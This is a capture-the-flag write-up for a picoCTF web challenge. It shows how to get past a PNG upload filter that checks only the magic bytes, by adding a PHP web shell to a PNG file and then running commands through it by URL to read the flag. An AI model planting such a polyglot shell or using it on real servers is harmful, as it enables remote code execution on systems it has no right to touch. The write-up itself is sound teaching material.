


## Challenge 🧩

I found a web app that can help process images: PNG images only!

Author: JUNIAS BONOU</br>
Points: 300

## Solution 🕵️‍♂️

Lets upload a [test.png](src/test.png) file to server.

To find out the route where the uploaded file is stored we can fuzz the directories or we can view `robots.txt` file

```text
User-agent: *
Disallow: /instructions.txt
Disallow: /uploads/
```

Lets read the `instructions.txt` file

```text
Let's create a web app for PNG Images processing.
It needs to:
Allow users to upload PNG images
   look for ".png" extension in the submitted files
   make sure the magic bytes match (not sure what this is exactly but wikipedia says that the first few bytes contain 'PNG' in hexadecimal: "50 4E 47" )
after validation, store the uploaded files so that the admin can retrieve them later and do the necessary processing.
```

Based on the instructions the web app only checks for PNG Magic bytes not the file extension, so we can craft png file with php shell

```png.php
‰PNG

   
IHDR         wSÞ   IDATWcøÿÿ? þþ§5„    IEND®B`‚
<?php echo "Shell";system($_GET['cmd']); ?>
```


Testing Connection by `uploads/test.png.php?cmd=pwd`

Listing contents of `/var/www/html` by `uploads/test.png.php?cmd=ls%20/var/www/html/`



Get the flag `uploads/test.png.php?cmd=cat%20/var/www/html/MFRDAZLDMUYDG.txt`



## Flag 🚩

`picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_xxxxxxxx}`
